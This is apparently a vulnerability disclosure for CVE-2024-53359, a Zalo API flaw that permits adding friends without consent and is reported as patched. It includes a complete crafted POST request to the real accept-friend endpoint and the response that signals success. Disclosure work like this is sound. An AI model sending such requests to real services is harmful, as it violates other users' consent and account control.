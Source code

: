 # CVE-2024-53359: Zalo API Vulnerability Allows Adding Friends Without Consent

## Overview
A vulnerability in Zalo (v23.09.01) allows attackers to add friends without user consent by exploiting insecure permissions in the API. Discovered in April 2024, this issue was patched by Zalo on April 15, 2024.

---

## Details

### Affected API
- **Endpoint**: `ACCEPT_FRIEND`  
  **URL**: `https://friend.talk.zing.vn/api/friend/accept`

### Exploit
By sending a crafted POST request to the `ACCEPT_FRIEND` endpoint with specific parameters, attackers could force a friend connection without user approval.  

Example POST request:
```http
POST https://friend.talk.zing.vn/api/friend/accept
Content-Type: application/json

{
  "actiontime": 1,
  "api_key": "NULL",
  "avatarSize": 120,
  "clientType": 1,
  "session_key": "NULL",
  "sign": "NULL",
  "ts": "NULL",
  "userId": 397726729,
  "sig": "NULL"
}
```

If the server returns:
```json
{
  "code": 0
}
```
It means the friend request was successfully accepted.

---

## Impact
- **Type**: Insecure Permissions
- **Effect**: Allows unauthorized friend connections if the attacker's side has your phone number.
- **CVSS Score**: 5.3 (Medium)

---

## Timeline
- **Discovery**: Early April 2024  
- **Fix Released**: April 15, 2024  

---

## Embedded Video
Here is a detailed video explanation of the vulnerability:

<video controls width="800">
  <source src="./video/video-explanation.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>
---

## Disclaimer
This document is for informational purposes only. Do not exploit this vulnerability.